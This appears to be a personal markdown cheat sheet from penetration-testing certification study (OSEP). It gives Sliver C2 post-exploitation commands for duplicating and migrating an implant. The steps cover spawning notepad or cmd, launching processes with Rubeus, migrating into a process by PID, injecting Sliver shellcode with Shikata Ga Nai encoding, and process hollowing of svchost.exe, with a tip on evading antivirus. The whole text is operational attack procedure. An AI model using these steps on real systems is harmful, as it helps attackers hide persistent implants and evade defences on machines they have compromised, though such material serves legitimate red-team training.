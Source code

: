 # Implant Duplication and Migration

### 1) Launch either x64 or x86 version of notepad according to beacon process

    execute C:\\windows\\system32\\notepad.exe
    execute -T notepad
    execute C:\\windows\\SysWOW64\\notepad.exe

### 2) Launching process with Rubeus

    rubeus -t 20 -- createnetonly /program:C:\\windows\\SysWOW64\\notepad.exe
    rubeus -t 20 -- createnetonly /program:C:\\windows\\system32\\cmd.exe

### 3) Get process pid (usually last process)

    ps -e notepad

### 4) Get explorer's pid for stability

    ps -e explorer

### 5) Migrate into the created process (two ways, migrate or execute-shellcode)

    migrate -p 3532

#### TIP: Works best on x86 with AV

### 6) x64 - ShikataGaNai

    execute-shellcode -p 5544 /home/kali/OSEP/hav0c/sliver.x64.bin
    execute-shellcode -S -r -I 10 -p 9088 /home/kali/OSEP/hav0c/sliver.x64.bin

### 7) Process hollowing (recommended)

    hollow svchost.exe /home/kali/OSEP/hav0c/sliver.x64.bin

### 8) x86 - Using -A or without, makes no difference, sliver automatically detects the arch for 32 bit

    execute-shellcode -A 386 -p 1524 /home/kali/OSEP/hav0c/sliver.x86.bin
    execute-shellcode -p 6896 /home/kali/OSEP/hav0c/sliver.x86.bin
